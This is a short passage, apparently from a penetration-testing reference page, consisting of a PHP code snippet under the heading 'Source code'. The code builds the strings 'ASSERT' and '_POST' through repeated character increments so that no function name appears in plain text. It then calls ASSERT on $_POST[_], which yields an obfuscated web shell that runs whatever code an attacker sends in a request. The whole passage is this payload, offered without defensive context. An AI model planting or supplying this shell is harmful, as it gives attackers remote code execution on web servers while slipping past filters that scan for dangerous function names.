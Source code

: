 ```php
$__=$_;
$__++;$__++;$__++;$__++; // E
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // R
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$___.=$__;

$____='_';
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // P
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // O
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>
